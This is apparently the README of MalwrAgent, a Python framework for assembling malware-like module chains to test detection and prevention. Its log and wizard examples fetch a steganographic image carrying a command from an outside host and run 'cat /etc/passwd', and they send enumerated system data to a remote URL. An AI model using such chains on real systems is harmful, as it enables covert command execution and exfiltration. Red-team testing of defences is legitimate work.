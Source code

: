     __   __  _______  ___      _     _  ______    _______  _______  _______  __    _  _______ 
    |  |_|  ||   _   ||   |    | | _ | ||    _ |  |   _   ||       ||       ||  |  | ||       |
    |       ||  |_|  ||   |    | || || ||   | ||  |  |_|  ||    ___||    ___||   |_| ||_     _|
    |       ||       ||   |    |       ||   |_||_ |       ||   | __ |   |___ |       |  |   |  
    |       ||       ||   |___ |       ||    __  ||       ||   ||  ||    ___||  _    |  |   |  
    | ||_|| ||   _   ||       ||   _   ||   |  | ||   _   ||   |_| ||   |___ | | |   |  |   |  
    |_|   |_||__| |__||_______||__| |__||___|  |_||__| |__||_______||_______||_|  |__|  |___|  

    -- .- .-.. .-- .-. .- --. . -. - 

[![Code Climate](https://codeclimate.com/github/michaelschratt/MalwrAgent/badges/gpa.svg)](https://codeclimate.com/github/michaelschratt/MalwrAgent) [![Codacy Badge](https://api.codacy.com/project/badge/Grade/ac34274f76e742f089e82684c2e50dee)](https://www.codacy.com/app/bl4ckw0rm/MalwrAgent?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=michaelschratt/MalwrAgent&amp;utm_campaign=Badge_Grade)

### About MalwrAgent

#### THIS PROJECT IS STILL IN ALPHA STATE

Hello Agent M! Welcome to the MalwrAgency. The MalwrAgent enables you test your current detection & prevention capabilities in just a few simple steps. The idea is to offer a framework of different modules you can connect to make up a chain. For example, egress testing can be established by connecting multiple HTTP POST and HTTP GET requests. 

Threat actors tend to use more sophisticated techniques like steganography. This technique is not only applied during infiltration but also used for data exfiltration based on video or image steganography.
Following log output demonstrates the download of an image that contains a hidden string. This string is then used as an input argument for the Command module. Finally, `cat /etc/passwd` is executed. 

    bl4ckw0rm@einsteinium > python malwragent.py -l -c myChains/Stego.json --log 3
    INFO:root:client: Checking f_retrieve_image with parameters {u'url': u'http://mfs-enterprise.com/agency/stego.png'}
    INFO:root:client: Checking f_extract_text_from_image with parameters None
    INFO:root:client: Checking f_exec_system with parameters None
    Autopilot takes over in
       3
       2
       1
    INFO:root:myChains/Stego: Chain CLIENT running
    INFO:root:myChains/Stego: Running function f_retrieve_image from module Web with input <None> and args <{u'url': u'http://mfs-enterprise.com/agency/stego.png'}>
    INFO:root:myChains/Stego: Running Transportation module malwragent.packages.modules.web.Web - Args: {'settings': {u'function': u'f_retrieve_image', 'input': None, u'args': {u'url': u'http://mfs-enterprise.com/agency/stego.png'}}}
    INFO:requests.packages.urllib3.connectionpool:Starting new HTTP connection (1): mfs-enterprise.com
    INFO:requests.packages.urllib3.connectionpool:Starting new HTTP connection (1): www.mfs-enterprise.com
    INFO:root:myChains/Stego: Running function f_extract_text_from_image from module Stego with input <<cStringIO.StringI object at 0x10be7fad0>> and args <None>
    INFO:root:myChains/Stego: Running Transformation module malwragent.packages.modules.stego.Stego - Args: {'settings': {u'function': u'f_extract_text_from_image', 'input': <cStringIO.StringI object at 0x10be7fad0>, u'args': None}}
    INFO:root:myChains/Stego: Running function f_exec_system from module Command with input <cat /etc/passwd> and args <None>
    INFO:root:myChains/Stego: Running Post module malwragent.packages.modules.command.Command - Args: {'settings': {u'function': u'f_exec_system', 'input': 'cat /etc/passwd', u'args': None}}
    INFO:root:myChains/Stego: Chain CLIENT finished
    ^C
    Bye, Bye

Just as one likes, you could use any other module to invoke an action on the previous output. And so on ... But in the end, you should have an eye at your detection & prevention products, and develop new defensive strategies. 

### Get started

    bl4ckw0rm@einsteinium > python malwragent.py
    usage: malwragent.py [-h] [-l] [-w] [-c CONFIGFILE] [-i INTERVAL]
                         [--log {1,2,3,4}] [-V]
    
    optional arguments:
      -h, --help            show this help message and exit
      -l, --load            load and run chain from a configuration file.
      -w, --wizard          create and save a chain to configuration file
      -c CONFIGFILE, --configfile CONFIGFILE
                            configuration file name, default: config.json
      -i INTERVAL, --interval INTERVAL
                            interval for periodic chain execution, default: 10
                            seconds
      --log {1,2,3,4}       increase logging output verbosity
      -V, --version         show program's version number and exit
    
You can use the wizard to create a new client. A client consists of a chain of modules. The chain is stored in JSON format.

    bl4ckw0rm@einsteinium > python malwragent.py -w -c myChains/test             
    #   __   __  _______  ___      _     _  ______    _______  _______  _______  __    _  _______ 
    #  |  |_|  ||   _   ||   |    | | _ | ||    _ |  |   _   ||       ||       ||  |  | ||       |
    #  |       ||  |_|  ||   |    | || || ||   | ||  |  |_|  ||    ___||    ___||   |_| ||_     _|
    #  |       ||       ||   |    |       ||   |_||_ |       ||   | __ |   |___ |       |  |   |  
    #  |       ||       ||   |___ |       ||    __  ||       ||   ||  ||    ___||  _    |  |   |  
    #  | ||_|| ||   _   ||       ||   _   ||   |  | ||   _   ||   |_| ||   |___ | | |   |  |   |  
    #  |_|   |_||__| |__||_______||__| |__||___|  |_||__| |__||_______||_______||_|  |__|  |___|  
    #
    #   -- .- .-.. .-- .-. .- --. . -. - 
    #
    #  Hello Agent M! Welcome to the MalwrAgency. Use our MalwrAgent to create your 
    #  highly flexible and easy to use Malwr. Please go ahead ...
    #
    #  Do you want your client to register with C2-Server? (Y|N) \> n
    #  Choose from our list of modules. What do you want the client to do?
    #
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> m
    
    function                         type            module         choice
    -------------------------------  --------------  -----------  --------
    f_exec_system                    Post            Command             0
    f_base64_decode                  Transformation  Crypto              1
    f_base64_encode                  Transformation  Crypto              2
    f_md5                            Transformation  Crypto              3
    f_sha1                           Transformation  Crypto              4
    f_sha256                         Transformation  Crypto              5
    f_get_platform                   Post            Enumeration         6
    f_get_platform_machine           Post            Enumeration         7
    f_get_platform_processor         Post            Enumeration         8
    f_get_platform_system            Post            Enumeration         9
    f_get_platform_uname             Post            Enumeration        10
    f_get_platform_version           Post            Enumeration        11
    f_extract_text_from_image        Transformation  Stego              12
    f_grab_cmd_from_twitter_profile  Transportation  Twitter            13
    f_http_get                       Transportation  Web                14
    f_http_post                      Transportation  Web                15
    f_retrieve_image                 Transportation  Web                16
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> 
    
    Adding function f_get_platform_uname from module Enumeration done
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> 14
    
    Please provide the following arguments: url
    
    # +[url] \> http://mfs-enterprise.com/agency/?info=
    
    Adding function f_http_get from module Web done
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> n
    #
    #  Do you want to review your chain? (Y|N) \> y
    
    function              type            module       chain    arguments
    --------------------  --------------  -----------  -------  --------------------------------------------------
    f_get_platform_uname  Post            Enumeration  CLIENT
    f_http_get            Transportation  Web          CLIENT   {'url': 'http://mfs-enterprise.com/agency/?info='}
    
    #  Do you want to save the chain as myChains/test.json? (Y|N) \> y
    
    See you then. Use 'malwragent.py -l -c myChains/test.json' to run your client.

### Write your own modules

TBD

### Support

Just drop me a line. Please, use contact information from below.

### Supported Operating Systems

Linux

### Contribute

Feel free to browse through open issues and help where you can.

### Contact Information

Name: Michael Schratt

Twitter: @bl4ckw0rm

Email: github@mfs-enterprise.com

### Licence

Attribution-NoDerivatives 4.0 International (CC BY-ND 4.0)

Visit [https://creativecommons.org/licenses/by-nd/4.0/](https://creativecommons.org/licenses/by-nd/4.0/) for further information